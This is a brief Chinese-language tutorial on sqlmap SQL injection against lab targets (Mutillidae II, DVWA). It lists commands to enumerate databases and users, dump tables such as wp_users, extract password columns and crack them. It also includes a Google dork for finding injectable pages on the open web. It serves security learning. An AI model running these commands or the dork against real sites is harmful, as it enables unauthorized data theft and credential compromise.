 在 kali 上自带

```bash
sqlmap --version
sqlmap --hh | less

# 在谷歌上搜 inurl .php?id=1
```


### GET 方法注入

先找一个无需登录的靶机 QWASP Mutillidae Ⅱ > OWASP 2013 > A1 - Injection(SQL) > SQLi - Extract Data > User Info(SQL)

```mysql
sqlmap -u "http://192.168.50.129/mutillidae/index.php?page=user-info.php&username=purple&password=1234&user-info-php-submit-button=View+Account+Details" --batch -p username
```

<img src="sqlmap-nologin.png" alt="sqlmap-nologin" style="zoom:80%;" />

<img src="sqlmap-nologin2.png" alt="sqlmap-nologin2" style="zoom:80%;" />

```bash
# 自动化完成
--batch
# 获得所有数据库
--dbs
# 获得所有用户
--users
# 获得当前用户
--current-user
# 获得当前数据库
--current-db

--level=5 --risk=3

# 获得表 -D "database_name" --tables
-D wordpress --tables 

# 获得列 -D "database_name" -T "table_name" --columns
-D wordpress -T wp_users --columns

--dump-all
# 排除
--dump-all --exclude-sysdbs
# crack password
-D "database_name" -T "table_name" --dump
# 指定列名
-D "database_name" -T "table_name" -C "username,password" --dump
```

需要帐号登录的靶机：DVWA 

